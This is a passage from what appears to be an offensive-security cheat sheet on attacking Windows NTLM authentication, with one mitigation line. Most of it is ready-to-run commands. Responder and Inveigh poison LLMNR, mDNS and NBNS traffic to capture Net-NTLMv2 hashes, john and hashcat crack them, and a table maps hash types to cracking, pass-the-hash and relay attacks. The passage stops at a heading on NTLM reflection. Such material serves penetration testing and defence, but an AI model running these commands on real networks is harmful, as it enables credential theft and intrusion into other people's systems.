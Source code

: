 :warning: NTLMv1 with SSP(Security Support Provider) changes the server challenge and is not quite ideal for the attack, but it can be used.


**Mitigations**: 

* Set the Lan Manager authentication level to `Send NTLMv2 responses only. Refuse LM & NTLM`

### Capturing and cracking Net-NTLMv2/NTLMv2 hashes

If any user in the network tries to access a machine and mistype the IP or the name, Responder will answer for it and ask for the NTLMv2 hash to access the resource. Responder will poison `LLMNR`, `MDNS` and `NETBIOS` requests on the network.

```powershell
# https://github.com/lgandx/Responder
$ sudo ./Responder.py -I eth0 -wfrd -P -v

# https://github.com/Kevin-Robertson/InveighZero
PS > .\inveighzero.exe -FileOutput Y -NBNS Y -mDNS Y -Proxy Y -MachineAccounts Y -DHCPv6 Y -LLMNRv6 Y [-Elevated N]

# https://github.com/EmpireProject/Empire/blob/master/data/module_source/collection/Invoke-Inveigh.ps1
PS > Invoke-Inveigh [-IP '10.10.10.10'] -ConsoleOutput Y -FileOutput Y -NBNS Y –mDNS Y –Proxy Y -MachineAccounts Y
```

Crack the hashes with Hashcat / John The Ripper

```ps1
john --format=netntlmv2 hash.txt
hashcat -m 5600 -a 3 hash.txt
```


### Man-in-the-Middle attacks & relaying

NTLMv1 and NTLMv2 can be relayed to connect to another machine.

| Hash                 | Hashcat | Attack method       |
|---|---|---|
| LM                    | `3000`  | crack/pass the hash  |
| NTLM/NTHash           | `1000`  | crack/pass the hash  |
| NTLMv1/Net-NTLMv1     | `5500`  | crack/relay attack   |
| NTLMv2/Net-NTLMv2     | `5600`  | crack/relay attack   |

Crack the hash with `hashcat`.

```powershell
hashcat -m 5600 -a 0 hash.txt crackstation.txt
```

#### MS08-068 NTLM reflection
